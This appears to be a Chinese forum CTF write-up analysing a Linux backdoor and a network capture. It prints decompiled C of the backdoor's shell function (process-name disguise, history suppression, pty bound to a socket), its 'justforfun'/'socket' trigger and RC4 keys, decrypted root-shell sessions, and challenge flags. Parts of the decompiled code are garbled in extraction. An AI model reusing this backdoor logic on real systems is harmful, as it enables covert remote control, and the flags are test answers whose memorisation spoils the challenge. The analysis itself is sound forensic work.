[href="forum.php?mod=attachment&aid=MjgyMzU4NnwzZDEyOWYwYnwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU4NnwzZDEyOWYwYnwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:22 上传

继续往下分析，可知程序根据 `v13` 的不同进入三个分支。



1766935357449_d.png (202.05 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjgyMzU4N3wzMDg1MjI5NHwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU4N3wzMDg1MjI5NHwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:22 上传


- 当 `v13` 为 0 或 1 时，后门程序都会返回一个交互式的 shell，此时 `main` 函数中发现的两个神秘字符串的作用已经很明显了，用于验证身份，当收到的数据包偏移 10 字节的数据为 "justforfun" 或 "socket" 时，可以触发后门 shell。
- 当 `v13` 为 2 时，后门程序仅回复单字节 "1"，猜测用于测试受害服务器的存活性。



`1766935374067_d.png` (231.65 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjgyMzU4OHxlY2I0YThmN3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU4OHxlY2I0YThmN3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:22 上传

### 2.2.3. `shell` 函数

继续观察 `shell` 函数。

[C] 纯文本查看 复制代码


```
// bad sp value at call has been detected, the output may be wrong!
__int64 __fastcall shell(int a1, const char *a2, const char *a3)
{
  int v4; // eax
  unsigned int i; // [rsp+20h] [rbp-8A08h]
  int v7; // [rsp+24h] [rbp-8A04h]
  int v8; // [rsp+24h] [rbp-8A04h]
  __pid_t pid; // [rsp+28h] [rbp-8A00h]
  int v10; // [rsp+2Ch] [rbp-89FCh]
  int v11; // [rsp+30h] [rbp-89F8h]
  char *src; // [rsp+48h] [rbp-89E0h]
  _WORD v13[4]; // [rsp+50h] [rbp-89D8h] BYREF
  char *argv[4]; // [rsp+58h] [rbp-89D0h] BYREF
  fd_set readfds; // [rsp+78h] [rbp-89B0h] BYREF
  char *envp[256]; // [rsp+F8h] [rbp-8930h] BYREF
  _BYTE dest[5]; // [rsp+8FBh] [rbp-812Dh] BYREF
  char v18[6]; // [rsp+900h] [rbp-8128h] BYREF
  char path[8]; // [rsp+906h] [rbp-8122h] BYREF
  char v20[10]; // [rsp+90Eh] [rbp-811Ah] BYREF
  char v21[32]; // [rsp+918h] [rbp-8110h] BYREF
  char v22[32]; // [rsp+938h] [rbp-80F0h] BYREF
  char v23[32]; // [rsp+958h] [rbp-80D0h] BYREF
  char v24[32]; // [rsp+978h] [rbp-80B0h] BYREF
  char v25[128]; // [rsp+998h] [rbp-8090h] BYREF
  _BYTE buf[16]; // [rsp+A18h] [rbp-8010h] BYREF
  char v27; // [rsp+A28h] [rbp-8000h] BYREF
  _QWORD v28[512]; // [rsp+7A28h] [rbp-1000h] BYREF
  __int64 savedregs; // [rsp+8A28h] [rbp+0h] BYREF

  while ( v28 != (_QWORD *)&v27 )
    ;
  v28[511] = __readfsqword(0x28u);
  strcpy(v21, "qmgr -l -t fifo -u");
  argv[0] = v21;
  argv[1] = 0LL;
  argv[2] = 0LL;
  strcpy(path, "/bin/sh");
  strcpy(v20, "HOME=/tmp");
  strcpy(v22, "PS1=[\\u@\\h \\W]\\\\$ ");
  strcpy(v23, "HISTFILE=/dev/null");
  strcpy(v24, "MYSQL_HISTFILE=/dev/null");
  strcpy(
    v25,
    "PATH=/bin:/usr/kerberos/sbin:/usr/kerberos/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin:./bin");
  strcpy(v18, "vt100");
  envp[0] = v20;
  envp[1] = v22;
  envp[2] = v23;
  envp[3] = v24;
  envp[4] = v25;
  envp[5] = v18;
  envp[6] = 0LL;
  if ( a2 )
    system(a2);
  if ( a3 )
    system(a3);
  write(a1, "3458", 4uLL);
  if ( (unsigned int)open_tty() )
  {
    pid = fork();
    if ( !pid )
    {
      close(pty);
      ioctl(tty, 0x540EuLL);
      close(a1);
      dup2(tty, 0);
      dup2(tty, 1);
      dup2(tty, 2);
      close(tty);
      execve(path, argv, envp);
    }
    close(tty);
    while ( 1 )
    {
      for ( i = 0; i = pty ? a1 + 1 : pty + 1;
      if ( select(v4, &readfds, 0LL, 0LL, 0LL)  5 )
            v7 = 5;
          memcpy(dest, src, v7);
          if ( v7  0 )
            write(pty, src + 5, v8);
        }
        else if ( write(pty, buf, v11) 
```


1766935399699_d.png (246.42 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU4OXxhMmM2MWI1Y3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU4OXxhMmM2MWI1Y3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:23 上传

后续就是根据情况启动交互式终端了，值得注意的是，在建立连接后，后门程序通过 `cread` 和 `cwrite` 函数用来读写网络数据包，查看可知写入时使用了 `RC4` 算法进行加密，读取时使用 `RC4` 算法进行解密，而密钥正是前面接收到的偏移 10 字节的数据，且经过分析只能为 `justforfun` 与 `socket` 之一。


1766935428427_d.png (87.52 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU5MHxhY2MzZmQ1ZnwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU5MHxhY2MzZmQ1ZnwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:23 上传


1766935441937_d.png (106.3 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU5MXxmMWY0M2Q2OXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU5MXxmMWY0M2Q2OXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:24 上传


1766935454801_d.png (149.76 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU5MnwyYTlhMTI0NXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU5MnwyYTlhMTI0NXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:24 上传

## 2.3. pcap 包分析过程

当搞清楚后门程序的运行逻辑之后再分析 pcap 包方向就很明确了。

### 2.3.1. 在偏移 10 字节位置发送特定数据触发后门

首先由于后门程序建立连接后会发送 `3458` 作为连接成功的标识，所有我们使用直接搜索包含该字符串的数据包。


1766935467430_d.png (103.28 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU5M3xlNGJmODMwN3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU5M3xlNGJmODMwN3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:24 上传

可以看到有 4 个包包含字符串 `3458`，经过分析可以知道：
- 3045 号数据包为恶意脚本 `ls` 被执行时，受害服务器主动下载了后门程序
- 3164 号和 3166 号数据包同为第一次 shell 连接的标识，可能因为超时重传了一次
- 7638 号数据包为第二次 shell 连接时的标识

既然已经知道 `RC4` 的密钥固定为 `justforfun` 与 `socket` 之一，我们同样直接搜索这两个字符串。

#### 2.3.1.1. "justforfun" 触发


1766935484234_d.png (68.24 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU5NHxhMGNhZTNkOXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU5NHxhMGNhZTNkOXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:24 上传


1766935500920_d.png (297.48 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU5NXw4MjM2NGI1NXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU5NXw4MjM2NGI1NXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:25 上传

可以看到 3156 号数据包发送了 `justforfun`，并且位置在 udp 包数据部分偏移 10 字节的位置。

#### 2.3.1.2. "socket" 触发


1766935519324_d.png (88.34 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU5Nnw2MTVlYzA4N3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU5Nnw2MTVlYzA4N3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:25 上传


1766935533737_d.png (473.49 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU5N3w4NTk3Y2RhN3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU5N3w4NTk3Y2RhN3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:25 上传

同样的，6269 号数据包发送了 `socket`，位置在 tcp 包数据部分偏移 10 字节的位置。

此时得到第三问答案：flag{rc4_justforfun_socket}

同时得到第四问答案：flag{3156_6269}

### 2.3.2. 第一次 shell 连接

直接跟踪 3164 号数据包的 TCP 流，可以看到除了首次通信后门程序发送的 `3458` 标识外，后续的数据都被加密了。


1766935571643_d.png (958.54 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU5OHxiMTQyYzJhYXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU5OHxiMTQyYzJhYXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:26 上传

但是我们知道密钥，后续就很好办了，直接查看原始数据，然后利用 `CyberChef` 解密即可（记得删去首行的明文 `3458`）。


1766935597665_d.png (934.54 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzU5OXw1MmJkMzNjN3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU5OXw1MmJkMzNjN3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:26 上传


1766935611667_d.png (356.05 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgyMzYwMHw2OTA5OGJlZXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzYwMHw2OTA5OGJlZXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)
2025-12-28 23:26 上传

解密后数据：

[Shell] 纯文本查看 复制代码

```
```


```shell
[\u@\h \W]\$ id
uid=0(root) gid=0(root) groups=0(root)
[\u@\h \W]\$ whoami
root
[\u@\h \W]\$ uname -a
Linux server 5.15.0-165-generic #175-Ubuntu SMP Tue Nov 25 16:51:58 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
[\u@\h \W]\$ cat /etc/issue
Ubuntu 22.04.5 LTS \n \l
[\u@\h \W]\$ lsb_release -a
No LSB modules are available.
Distributor ID:        Ubuntu
Description:        Ubuntu 22.04.5 LTS
Release:        22.04
Codename:        jammy
[\u@\h \W]\$ ifconfig
qmgr -l -t fifo -u: 6: ifconfig: not found
[\u@\h \W]\$ netstat -antp
qmgr -l -t fifo -u: 7: netstat: not found
[\u@\h \W]\$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.5 100848 11732 ?        Ss   Dec08   0:06 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Dec08   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I
```

### 2.3.3. 第二次 shell 连接

使用同样的方法追踪解密。



`1766935629130_d.png` (416.53 KB, 下载次数: 1)

[1766935629130_d.png](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzYwMXxmOTRhNzNkY3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:27 上传

解密后数据：

```shell
[\u@\h \W]\$ ps aux | grep nginx
root        8713  0.0  0.0  55228  1696 ?        Ss   Dec14   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
www-data    8714  0.0  0.2  55864  5508 ?        S    Dec14   0:00 nginx: worker process
root       12695  0.0  0.0   3472  1524 pts/4    S+   09:56   0:00 grep nginx
[\u@\h \W]\$ ps aux | grep redis
redis        590  0.0  0.5  67244 10272 ?        Ssl  Dec08   8:59 /usr/bin/redis-server 127.0.0.1:6379
root       12697  0.0  0.0   3472  1556 pts/4    S+   09:56   0:00 grep redis
[\u@\h \W]\$ systemctl status nginx
